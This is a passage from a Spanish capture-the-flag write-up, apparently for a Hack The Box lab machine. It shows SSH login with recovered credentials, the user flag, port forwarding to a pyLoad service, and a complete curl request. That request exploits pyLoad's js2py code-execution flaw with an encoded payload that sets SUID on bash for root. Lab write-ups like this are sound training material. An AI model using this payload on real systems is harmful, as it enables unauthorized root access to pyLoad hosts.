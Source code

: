 Ahora solo queda conectarnos a ssh con las credenciales que obtuvimos

**usr:** sau

**passwd:** HereIsYourPassWord1431

Y ya tenemos la primera flag:

```
sau@pc:~$ cat user.txt 
9346084c975a3b22536e1c6ef783075f
```

## Escalada

Empezare usando linpeas para ver que nos reporta, lo mas interesante es que en la maquina victima esta corriendo el puerto 8000:

![](/assets/img/PC/8.png)

Y como se imaginan, debemos de hacer port forwarding, ejecutamos este comando en nuestra maquina:

```ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214```

Una vez dentro, veremos una pagina de pyLoad, buscando en google por vulnerabilidades, existe una ejecucion arbitraria de codigo que abusa de la funcion js2py, aca hay un post que habla sobre ello: [https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)


Para conseguir root, debemos de asignarle permisos SUID a bash, esto lo hacemos con:

```
curl -i -s -k -X $'POST' \
-H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
--data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68%22%29;f=function%20f2(){};&passwords=aaaa' \
$'http://127.0.0.1:8000/flash/addcrypted2'
```

![](/assets/img/PC/9.png)

Y listo, esto es todo, gracias por leer ❤